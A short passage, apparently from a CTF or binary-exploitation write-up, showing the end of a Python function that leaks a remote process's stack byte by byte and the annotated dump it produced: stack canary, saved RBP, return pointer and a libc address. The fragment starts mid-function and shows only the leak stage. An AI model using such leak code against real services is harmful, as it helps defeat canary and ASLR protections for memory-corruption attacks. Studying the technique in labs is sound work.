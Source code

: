 ```python
            else:
                idx += len(leak)
                data += leak
            print(data.hex())
            io.close()
        except:
            io.close()
    return idx, data

stackdump = b''

if len(stackdump) == 0:
    idx, stackdump = dumpstack(0, )

stack = [
    hex(int.from_bytes(bytes.fromhex(stackdump[i:i+16].decode('ascii')).rjust(8,b'\0'), 'little'))
    for i in range(0,len(stackdump),16)]

pprint(stack)
```

Output of the stack:

```
['0xf639a0bd15599900',  # canary
 '0x7ffd9b8baad0',      # stored RBP     - stack address
 '0x56380948f65c',      # Return pointer - executable .text
 '0x7ffd9b8bab30',
 '0x400000000',
 '0x7ffd9b8bab50',
 '0x56380948f53a',
 '0x7ffd9b8bac68',
 '0x200000000',
 '0x0',
 '0x1000000000',
 '0x300000400',
 '0x4',
 '0x40002',
 '0x0',
 '0x9602000a14b30002',
 '0x0',
 '0x312e322e302e3031',
 '0x3035',
 '0x0',
 '0xf639a0bd15599900',
 '0x2',
 '0x7f41fb0cad90',      # <__libc_start_call_main+128>
 '0x0',
 '0x56380948f3a9',      
 '0x200000000',
 '0x7ffd9b8bac68']
```
